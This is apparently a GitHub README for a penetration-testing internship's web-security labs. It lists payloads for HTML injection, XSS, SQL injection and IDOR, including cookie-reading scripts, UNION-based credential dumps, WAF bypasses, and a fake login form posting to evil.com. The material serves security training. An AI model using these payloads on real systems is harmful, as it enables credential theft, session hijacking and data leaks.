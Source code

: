 # Hacktify Cybersecurity Labs & Writeups

## Overview
Welcome to the Hacktify Cybersecurity (HCS) - Penetration Testing Internship 2025 Labs repository! This repository contains hands-on labs and detailed writeups on various web security vulnerabilities. Each section includes a walkthrough and documentation to help security enthusiasts and professionals understand and mitigate these vulnerabilities.

🔗 Documentation: [**GitHub**](https://github.com/reyincyber/Hacktify-CS); [**Medium**](https://medium.com/me/stories/public); [**YouTube**](https://www.youtube.com/watch?v=GBzzOPzwKU4&list=PLlC9xarFXu2uGxKL1Xr7hy3TH13YOVY8U)

## Table of Contents
- [HTML Injection](#html-injection)
- [Cross-Site Scripting (XSS)](#cross-site-scripting-xss)
- [Insecure Direct Object References (IDOR)](#insecure-direct-object-references-idor)
- [SQL Injection (SQLi)](#sql-injection-sqli)
- [Cross-Site Request Forgery (CSRF)](#cross-site-request-forgery-csrf)
- [Cross-Origin Resource Sharing (CORS)](#cross-origin-resource-sharing-cors)
- [Hacktify WK4 CTF](#hacktify-wk4-ctf)
- [HCPT Reports](#hcpt-reports)

---

## HTML Injection
[GitHub Repo](https://github.com/reyincyber/Hacktify-CS/tree/main/HTML%20Injection) | [Medium Writeup](https://cyberrey.medium.com/html-injection-labs-walkthrough-hacktify-internship-8406228e9fd2) | [YouTube](https://youtu.be/GBzzOPzwKU4)

HTML Injection occurs when user input is not properly sanitized, allowing attackers to inject malicious HTML into web pages. This can lead to unauthorized modifications of page content, phishing attacks, and user impersonation.
```
Sub-lab 1: HTML’s are easy!
<h1>Test</h1>
<h1 style="color:red;">Hacked!</h1>

Sub-lab-3: File Names are also vulnerable!
<script>alert('XSS!')</script>.png

Sub-lab-4: File Content and HTML Injection a perfect pair!
<form action="http://evil.com/steal.php" method="POST">
  <input type="text" name="username" placeholder="Enter Username">
  <input type="password" name="password" placeholder="Enter Password">
  <input type="submit" value="Login">
</form>

Sub-lab-2.5: Injecting HTML using URL
http://labs....php?name=<h1>Injected</h1>
http://....php?<script>alert(document.cookie)</script>

Sub-lab-2.6: Encode IT!
%3Cscript%3Ealert%28%27XSS%27%29%3B%3C%2Fscript%3E 
%3Cscript%3Ealert(document.cookie)%3C/script%3E
```


## Cross-Site Scripting (XSS)

[GitHub Repo](https://github.com/reyincyber/Hacktify-CS/tree/main/Cross-Site%20Scripting%20(XSS)) | [Medium Writeup](https://cyberrey.medium.com/cross-site-scripting-xss-hands-on-lab-9f07bb8c8de2) | [YouTube](https://youtu.be/5bZfqFwr1mc)

XSS vulnerabilities allow attackers to inject malicious scripts into web applications, which can execute in a victim's browser. This can lead to session hijacking, data theft, and website defacement.
```
Let’s Do IT!
<script>alert('XSS')</script>

Balancing is Important in Life!
<script>alert('Hacked')</script>
">Hacked!<script>alert('Hacked')</script>

XSS is everywhere!
<script>alert('Hacked!')</script>@test.com

Alternatives are must!
"><script>prompt(1)</script>@test.com

Developer hates scripts!
<img src=x onerror="alert('XSS: Developer Hates Scripts!')">
">hello<IMG SRC=javascript:alert(1)>@test.com"

Change the Variation!
<script>alert(document.cookie)</script>
"><img src="x" onerror="alert('XSS')">

Encoding is the key?
%22%3E%3Cscript%3Ealert%28%27XSS%3A+Encoded%21%27%29%3C%2Fscript%3E
%22%3Ehello%3CIMG+SRC%3Djavascript%3Aalert%281%29%3E%40test.com%22

XSS with File Upload (file name)
<img src=x onerror="alert('XSS: File Name Exploit')">

XSS with File Upload (File Content)
<script>alert(document.domain + 'XSS: File Content')</script>

Stored Everywhere!
First Name: <script>alert('Firstname Stored')</script>
Lastname: <img src=x onerror="alert('LName Stored TOO!')">
Email: ">hello<IMG SRC=javascript:alert(emailfieldnotsafetoo)>@test.com"

DOM’s are love!
https://..../lab_11.php
https://..../lab_11.php?coin=btc
https://..../lab_11.php?coin=eth
https://..../lab_11.php?coin=doge
https://..../lab_11.php?<img src =x onerror=confirm("COINS_HACKED!")>
```

## Insecure Direct Object References (IDOR)

[GitHub Repo](https://github.com/reyincyber/Hacktify-CS/tree/main/Insecure%20Direct%20Object%20References%20(IDOR)) | [Medium Writeup](https://cyberrey.medium.com/insecure-direct-object-references-idor-hands-on-lab-93adbdd99602) | [YouTube](https://youtu.be/avhAVlpv1jc) 

IDOR occurs when an application exposes internal objects (such as database records) without proper access control. Attackers can exploit this to gain unauthorized access to sensitive data.
```
1.1 Give me my amount!!
https://…?id=11

1.2 Stop polluting my params!
id=4
id=1
https://…id=200

1.4 Change your methods!
https://…id=47
```

## SQL Injection (SQLi)

[GitHub Repo](https://github.com/reyincyber/Hacktify-CS/tree/main/SQL%20Injection%20(SQLi)) | [Medium Writeup](https://cyberrey.medium.com/sql-injection-sqli-hands-on-lab-d049af02b623) | [YouTube](https://youtu.be/XAS5fkZiwfQ) 

SQL Injection is a critical vulnerability that allows attackers to manipulate database queries by injecting malicious SQL code. This can lead to data leaks, unauthorized access, and database corruption.
```
1. Strings & Errors Part 1
1" OR "1"="1

2. Strings & Errors Part 2
?id=1'
?id=1' UNION SELECT 1,2,3,4--+

3. Strings & Errors Part 3
?id=1' UNION SELECT username, password FROM users--

4. Let's Trick 'em!
'
1' || '1'='1

5. Booleans and Blind!
?id=1

6. Error-Based: Tricked
") or ("1")=("1 -- 
('a'='a and hi")or ("a"="a

7. Errors and POST!
' OR '1'='1 

8. User Agents Lead Us!
Log in with admin@gmail.com | admin123 
'
' OR '1'='1
" OR "1"="1

9. Referer Lead Us!
' OR 1=1--
" OR "1"="1.

10. Oh Cookies!
Log in with 'admin'
' union SELECT version(),user(),database()#

11. WAF's are Injected!
?id=1&id=0' +union+select+1,@@version,database()--+

12. WAF's are Injected Part 2
?id=1--
?id=1&param=UNI&param2=ON SEL&param3=ECT 1,2,3--
```

## Cross-Site Request Forgery (CSRF)

[GitHub Repo](https://github.com/reyincyber/Hacktify-CS/tree/main/Cross-Site%20Request%20Forgery%20(CSRF)) | [Medium Writeup](https://cyberrey.medium.com/cross-site-request-forgery-csrf-hands-on-lab-34346497f6bf) | [YouTube](https://youtu.be/P6YhvQkkSpY) 

CSRF attacks trick authenticated users into executing unwanted actions on a web application, often leading to account takeover, unauthorized transactions, or configuration changes.
```
5. XSS the saviour
<script>alert(document.cookie)</script>
```

## Cross-Origin Resource Sharing (CORS)

[GitHub Repo](https://github.com/reyincyber/Hacktify-CS/tree/main/Cross-Origin%20Resource%20Sharing%20(CORS)) | [Medium Writeup](https://medium.com/@cyberrey/cross-origin-resource-sharing-cors-hands-on-lab-6a1d0b1b4d64) | [YouTube](https://youtu.be/n1NhWGDGzHw) 

CORS misconfigurations can allow unauthorized cross-origin requests, leading to data exposure and security risks for web applications that fail to enforce strict access control policies.

## Hacktify WK4 CTF
[GitHub Repo](https://github.com/reyincyber/Hacktify-CS/tree/8008ec0d8b2af76a3713b1448ccea066a1ec8894/Hacktify%20WK4%20CTF) | [Medium Writeup](https://medium.com/@cyberrey/hacktify-ctf-2025-week-4-eed64269651d)

This section contains the Hacktify Week 4 Capture The Flag (CTF) challenges and solutions, helping participants develop cybersecurity skills through practical problem-solving.

## HCPT Reports
[GitHub Repo](https://github.com/reyincyber/Hacktify-CS/blob/main/Hacktify%20HCPT%20Reports%20RU%20(1).pdf)

This report provides an in-depth analysis of various cybersecurity assessments conducted as part of the Hacktify HCPT program.

---

## Contributing
Contributions are welcome! If you have improvements, additional resources, or corrections, feel free to submit a pull request.

## License
This repository is maintained for educational purposes. Ensure responsible use of the information provided.

## Contact
For inquiries or discussions, feel free to reach out via [**LinkedIn**](https://linkedin.com/in/cyberrey)  | [**GitHub**](https://github.com/reyincyber/) | [**Medium**](https://medium.com/@cyberrey) | [**YouTube**](https://www.youtube.com/@reyincyber).
